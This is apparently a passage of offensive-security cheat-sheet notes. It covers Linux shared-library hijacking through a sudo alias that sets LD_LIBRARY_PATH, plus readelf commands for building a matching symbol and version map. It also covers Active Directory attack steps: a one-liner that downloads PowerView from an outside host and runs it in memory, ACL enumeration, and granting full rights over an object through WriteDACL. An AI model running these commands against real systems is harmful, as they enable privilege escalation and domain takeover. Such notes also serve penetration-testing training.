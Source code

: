 Add to .bashrc

```shell
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

View loaded libs

Get symbols

```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

Create version map

```shell
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

---

## Active Directory

---

## Enum

View object ACL’s

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/powerview.ps1') | IEX

Get-ObjectAcl -Identity <username>
Get-ObjectAcl -Identity <username> -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```

View all user objects access rights (GenericAll, WriteDACL)

```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

View all group objects access rights (GenericAll, WriteDACL)

```powershell
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

Change ACL if WriteDACL is set on object

```powershell
Add-DomainObjectAcl -TargetIdentity <target username/group> -PrincipalIdentity <username> -Rights All
```
